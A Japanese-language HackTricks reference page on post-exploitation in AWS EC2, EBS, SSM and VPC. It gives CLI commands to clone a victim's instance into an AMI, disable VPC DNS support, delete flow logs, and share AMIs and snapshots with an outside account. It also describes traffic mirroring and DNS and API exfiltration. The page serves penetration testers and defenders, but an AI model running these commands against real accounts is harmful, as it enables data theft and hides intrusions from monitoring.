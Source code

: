 # AWS - EC2、EBS、SSM、VPCのポストエクスプロイテーション

<details>

<summary><strong>HackTricksをサポートして特典を得る！</strong></summary>

* **HackTricksの最新バージョンを入手したい**、または**PEASSをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をご確認ください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見しましょう
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローしましょう 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのトリックを共有するには、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>

## EC2＆VPC

詳細については、次を参照してください：

{% content-ref url="../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### **悪意のあるVPCミラー**

VPCトラフィックミラーリングは、VPC内のEC2インスタンスの入出力トラフィックを**インスタンス自体に何もインストールする必要なく複製**します。この複製されたトラフィックは、通常、ネットワーク侵入検知システム（IDS）などに送信され、分析と監視が行われます。\
攻撃者はこれを悪用して、すべてのトラフィックをキャプチャし、そこから機密情報を取得することができます：

{% content-ref url="../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/aws-malicious-vpc-mirror.md" %}
[aws-malicious-vpc-mirror.md](../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/aws-malicious-vpc-mirror.md)
{% endcontent-ref %}

### 実行中のインスタンスのコピー

インスタンスには通常、いくつかの機密情報が含まれています。内部に入るためのさまざまな方法があります（[EC2特権エスカレーションのトリック](../../../aws-security/aws-privilege-escalation/aws-ec2-privesc.md)を確認してください）。ただし、その内容を確認する別の方法は、**AMIを作成し、それから新しいインスタンスを実行する（自分のアカウント内でも）**ことです：
```shell
# List instances
aws ec2 describe-images

# create a new image for the instance-id
aws ec2 create-image --instance-id i-0438b003d81cd7ec5 --name "AWS Audit" --description "Export AMI" --region eu-west-1

# add key to AWS
aws ec2 import-key-pair --key-name "AWS Audit" --public-key-material file://~/.ssh/id_rsa.pub --region eu-west-1

# create ec2 using the previously created AMI, use the same security group and subnet to connect easily.
aws ec2 run-instances --image-id ami-0b77e2d906b00202d --security-group-ids "sg-6d0d7f01" --subnet-id subnet-9eb001ea --count 1 --instance-type t2.micro --key-name "AWS Audit" --query "Instances[0].InstanceId" --region eu-west-1

# now you can check the instance
aws ec2 describe-instances --instance-ids i-0546910a0c18725a1

# If needed : edit groups
aws ec2 modify-instance-attribute --instance-id "i-0546910a0c18725a1" --groups "sg-6d0d7f01"  --region eu-west-1

# be a good guy, clean our instance to avoid any useless cost
aws ec2 stop-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1
aws ec2 terminate-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1
```
### EBSスナップショットのダンプ

**スナップショットはボリュームのバックアップ**であり、通常は**機密情報を含んでいる**ため、これらをチェックするとこの情報が明らかになるでしょう。\
スナップショットのない**ボリュームを見つけた場合**、以下のアクションを実行するか、単にアカウント内のインスタンスに**マウント**することができます：

{% content-ref url="aws-ebs-spanshot-dump.md" %}
[aws-ebs-spanshot-dump.md](aws-ebs-spanshot-dump.md)
{% endcontent-ref %}

### データの外部流出

#### DNSを介したデータの外部流出

EC2をロックダウンしてトラフィックが外部に出ないようにしても、DNS経由で**データを外部に流出**させることができます。

* **VPCフローログはこれを記録しません**。
* AWSのDNSログにはアクセスできません。
* 以下のコマンドを使用して、"enableDnsSupport"をfalseに設定して無効化します：

`aws ec2 modify-vpc-attribute --no-enable-dns-support --vpc-id <vpc-id>`

#### API呼び出しによるデータの外部流出

攻撃者は、自分が制御するアカウントのAPIエンドポイントを呼び出すことができます。CloudTrailはこの呼び出しをログに記録し、攻撃者はCloudTrailログでデータの外部流出を確認できます。

### SSMのポストエクスプロイテーション

{% content-ref url="../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/aws-ssm-post-exploitation.md" %}
[aws-ssm-post-exploitation.md](../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/aws-ssm-post-exploitation.md)
{% endcontent-ref %}

### ECSへの特権昇格

EC2インスタンスを実行し、それを使用してECSインスタンスを実行するために登録し、その後ECSインスタンスのデータを盗むことが可能です。

[**詳細についてはこちらを参照してください**](../../../aws-security/aws-privilege-escalation/aws-ec2-privesc.md#privesc-to-ecs)。

### VPCフローログの削除
```bash
aws ec2 delete-flow-logs --flow-log-ids <flow_log_ids> --region <region>
```
### AMIの共有

{% code overflow="wrap" %}
```bash
aws ec2 modify-image-attribute --image-id <image_ID> --launch-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```
### EBSスナップショットの共有

{% code overflow="wrap" %}
```bash
aws ec2 modify-snapshot-attribute --snapshot-id <snapshot_ID> --create-volume-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```
{% endcode %}

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **会社をハックトリックで宣伝したい**場合や、**最新バージョンのPEASSを入手したい**場合、またはHackTricksをPDFでダウンロードしたい場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をご確認ください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションをご覧ください
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローしてください 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのトリックを共有するには、**[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>
